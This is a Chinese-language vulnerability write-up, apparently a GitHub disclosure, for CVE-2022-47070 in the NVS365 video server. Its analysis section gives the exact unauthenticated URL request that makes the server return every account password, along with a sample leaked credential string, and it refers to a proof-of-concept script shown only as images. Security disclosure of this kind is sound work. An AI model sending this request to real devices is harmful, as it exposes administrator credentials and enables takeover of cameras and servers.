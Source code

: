 # 网络视频服务器：NVS365（密码信息未授权访问漏洞）(CVE-2022-47070)
# [CVSS:7.5分:点击跳转](https://nvd.nist.gov/vuln/detail/CVE-2022-47070 )

# [该漏洞关联下一份漏洞 《NVS365网络视频服务器任意命令执行》](https://github.com/Sylon001/NVS-365-Camera/tree/master/NVS-365-V01%20camera%20command%20execution)

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

官网产品介绍：

http://www.nvs365.com/docs/spec.html

![](./images/media/image2.png){width="5.7625in"
height="1.7430555555555556in"}

第三方产品介绍：

<http://www.sightwatch.com/>

![](./images/media/image3.png){width="5.758333333333334in"
height="4.003472222222222in"}

漏洞版本：

NVS-365-V01

![](./images/media/image4.png){width="5.764583333333333in"
height="3.66875in"}

漏洞分析：

输入一个错误的密码后，会向服务端发送两次url

(1)http://ip:prot/?jcpcmd=authen%20-act%20list&\_=1669884669901

(2)http://ip:prot/?jcpcmd=userpasswd%20-act%20list&\_=1669884673854

而 第二个包 服务端会返回正确的密码信息。

szJcpResult=\"\[Success\]user0=admin;passwd0=9999;group0=0;user1=operator;passwd1=operator;group1=1;user2=user;passwd2=user;group2=2;;\";

![](./images/media/image5.png){width="5.7652777777777775in"
height="2.5840277777777776in"}

直接访问url 如图：

![](./images/media/image6.png){width="5.758333333333334in"
height="1.145138888888889in"}



POC脚本未授权访问如下，详情可看附件py文件

![](./images/media/image8.png){width="5.764583333333333in"
height="3.5395833333333333in"}

![](./images/media/image9.png){width="5.7555555555555555in"
height="3.6638888888888888in"}

运行如下

![](./images/media/image10.png){width="5.766666666666667in"
height="5.934027777777778in"}


## security researcher
name1:   hefei    

Please contact email: Hefei.coffee@aliyun.com 
